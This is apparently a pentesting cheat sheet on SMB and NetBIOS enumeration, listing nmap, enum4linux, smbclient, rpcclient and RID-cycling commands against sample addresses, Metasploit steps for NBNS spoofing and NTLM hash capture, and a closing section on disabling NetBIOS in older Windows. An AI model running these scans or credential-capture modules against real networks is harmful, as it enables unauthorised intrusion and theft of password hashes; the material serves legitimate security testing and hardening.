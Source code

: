 # SMB Enumeration (Server Message Block)

## Scanning for the NetBIOS Service

```ShellSession
root@kali:~# nmap -v -p 139,445 192.168.1.12 -oG /tmp/smp.txt
```

## Scanning NetBIOS using nbtscan

```ShellSession
root@kali:~# nbtscan -r 192.168.1.12
```

## Null Session Enumeration

```ShellSession
root@kali:~# enum4linux -a 192.168.1.12
```

## Nmap SMB NSE Scripts

```ShellSession
root@kali:~# ls -la /usr/share/nmap/scripts/smb*
root@kali:~# nmap -v -p 139,445 192.168.1.12 --script smb-os-discovery.nse
```

## SMBCLIENT

```ShellSession
root@kali:~#    smbclient -L=192.168.1.12
```

## Null Sessions

```ShellSession
root@kali:~#    smbclient \\\\192.168.1.12 \\public
Enter root's password:
Anonymous login successful
```

## SMB OS Discovery

```ShellSession
nmap $ip --script smb-os-discovery.ns
```

## Nmap port scan

```ShellSession
nmap -v -p 139,445 -oG smb.txt $ip-254
Netbios Information Scanning
nbtscan -r $ip/24
```

## Nmap find exposed Netbios servers

```ShellSession
nmap -sU --script nbstat.nse -p 137 $ip
```

## Nmap all SMB scripts scan

```ShellSession
nmap -sV -Pn -vv -p 445 --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
```

Nmap all SMB scripts authenticated scan
nmap -sV -Pn -vv -p 445    --script-args smbuser=,smbpass= --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip

SMB Enumeration Tools
nmblookup -A $ip

smbclient //MOUNT/share -I $ip -N

rpcclient -U "" $ip

enum4linux $ip

enum4linux -a $ip

SMB Finger Printing
smbclient -L //$ip

Nmap Scan for Open SMB Shares
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.10.0/24

Nmap scans for vulnerable SMB Servers
nmap -v -p 445 --script=smb-check-vulns --script-args=unsafe=1 $ip

Nmap List all SMB scripts installed
ls -l /usr/share/nmap/scripts/smb*

Enumerate SMB Users
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 $ip-14
      OR
  python /usr/share/doc/python-impacket-doc/examples /samrdump.py $ip

RID Cycling - Null Sessions
ridenum.py $ip 500 50000 dict.txt
Manual Null Session Testing

  Windows:
net use \\$ip\IPC$ "" /u:"
Linux:
smbclient -L //$ip

## SMB Enumeration Techniques using Windows Tools:


1. NetBIOS Enumerator [nbtenum](http://nbtenum.sourceforge.net/)

```ShellSession
[+] NBNS Spoof / Capture

[>] NBNS Spoof
msf > use auxiliary/spoof/nbns/nbns_response
msf auxiliary(nbns_response) > show options
msf auxiliary(nbns_response) > set INTERFACE eth0
msf auxiliary(nbns_response) > set SPOOFIP 10.10.10.10
msf auxiliary(nbns_response) > run

[>] SMB Capture

msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > set JOHNPWFILE /tmp/john_smb
msf auxiliary(smb) > run

[>] HTTP NTML Capture

msf auxiliary(smb) > use auxiliary/server/capture/http_ntlm
msf auxiliary(smb) > set JOHNPWFILE /tmp/john_http
msf auxiliary(smb) > set SRVPORT 80
msf auxiliary(smb) > set URIPATH /
msf auxiliary(smb) > run
```

## Fix:
http://www.leonteale.co.uk/netbios-nbns-spoofing/

## Solution
The solution to this is to disable Netbios from broadcasting. The setting for this is in, what i hope, a very familiar place thaet you might not have really paid attention too before.

netbios

Netbios, according to Microsoft, is no longer needed as of Windows 2000.

However, there are a few side effects.

One of the unexpected consequences of disabling Netbios completely on your network is how this affects trusts between forests. Windows 2000 let you create an external (non-transitive) trust between a domain in one forest and a domain in a different forest so users in one forest could access resources in the trusting domain of the other forest. Windows Server 2003 takes this a step further by allowing you to create a new type of two-way transitive trusts called forest trusts that allow users in any domain of one forest access resources in any domain of the other forest. Amazingly, NetBIOS is actually still used in the trust creation process, even though Microsoft has officially “deprecated” NetBIOS in versions of Windows from 2000 on. So if you disable Netbios on your domain controllers, you won’t be able to establish a forest trust between two Windows Server 2003 forests.
But Windows 2003 is pretty old, since as of writing we are generally on Windows 2012 now. So if you would like to disable Netbios on your servers yet will be effected by the side effect for Forest trusts then ideally you should upgrade and keep up with the times anyway. alternatively, you can get away with, at the very least, disabling Netbios on your workstations.
See below for step by step instructions on disabling Netbios on workstations:

Windows XP, Windows Server 2003, and Windows 2000
On the desktop, right-click My Network Places, and then click Properties.
Right-click Local Area Connection, and then click Properties
In the Components checked are used by this connection list, double-click Internet Protocol (TCP/IP), clickAdvanced, and then click the WINS tab.Note In Windows XP and in Windows Server 2003, you must double-click Internet Protocol (TCP/IP) in the This connection uses the following items list.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.

For Windows Vista
On the desktop, right-click Network, and then click Properties.
Under Tasks, click Manage network connections.
Right-click Local Area Connection, and then click Properties
In the This connection uses the following items list, double-click Internet Protocol Version 4 (TCP/IPv4), clickAdvanced, and then click the WINS tab.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.

For Windows 7
Click Start, and then click Control Panel.
Under Network and Internet, click View network status and tasks.
Click Change adapter settings.
Right-click Local Area Connection, and then click Properties.
In the This connection uses the following items list, double-click Internet Protocol Version 4 (TCP/IPv4), clickAdvanced, and then click the WINS tab.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.
